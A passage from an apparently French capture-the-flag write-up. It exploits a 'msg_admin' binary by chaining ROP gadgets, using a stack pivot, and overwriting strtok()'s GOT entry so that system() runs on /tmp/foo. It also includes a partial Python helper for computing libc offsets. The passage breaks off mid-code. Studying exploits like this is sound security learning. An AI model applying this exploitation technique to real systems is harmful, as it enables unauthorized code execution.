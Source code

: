 Mais avant cela il faut s'assurer que eax a une valeur fixe. Le gadget suivant est un peu bizarre mais il met eax à 3 :  

```asm
0x08048760 : mov eax, 0x804b077 ; sub eax, 0x804b074 ; cmp eax, 6 ; ja 0x804877f ; ret
```

On aura besoin de définir ebx à de multiples reprises :  

```asm
0x0804859d : pop ebx ; ret
```

Et pour le final :  

```asm
0x08048786 : call eax
```

Pour le path à passer à *system()* il y a le */tmp/foo* vu plus tôt.  

Il ne reste qu'à trouver un gadget de *stack pivot*, celui qui va faire pointer le sommet de la stack vers les données que l'on contrôle et rendre tout le reste possible.  

Après recherche et essai ce dernier est impeccable :  

```asm
0x08048dd9 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```

Notre write-what-where servira à remplacer l'adresse d'une fonction dans la GOT par l'adresse du stack-pivot.  

*strtok()* est le parfait candidat à écraser car c'est la fonction qui suit immédiatement l'appel à *strcpy()* dans le code.  

J'ai donc écrit un exploit qui fonctionnait très bien en local avec une distribution et une version différence de la libc.  

Pour l'adapter il suffisait de retrouver en mémoire des valeurs dont la somme correspond au décalage entre *atol()* (symbole choisit) et *system()*.  

Simple... sauf qu'évidemment au moment de l'exploitation ça ne marchait pas. La stack était légèrement différente sur la distribution du CTF (confirmé en mettant en place une VM Trusty 14.04.2 et en m'assurant que la libc correspondait). La fin de la ROP chain était écrasé par des octets nuls, à croire que *strtok()* ou autre chose fonctionnait différemment.  

J'utilisais une addition avec 4 variables glanées par tâtonnement... Pour résoudre le bug il fallait trouver des chiffres en mémoire permettant une addition en trois chiffres maximum.  

Il faut aussi vérifier qu'aucun des octets d'adresse ne correspond à pipe ou à un retour à la ligne.  

Pour cela j'ai écrit le code suivant (il fait le job mais n'est pas performant) :  

```python
from collections import defaultdict
import struct

import numpy

BASE = 0x08048000
TARGET = numpy.uint32(0xe8fd)

values = defaultdict(list)
with open("msg_admin", "rb") as fd:
    offset = 0
    while True:
        buff = fd.read(4)
        if len(buff) != 4:
            break

        value = struct.unpack("<I", buff)[0]
```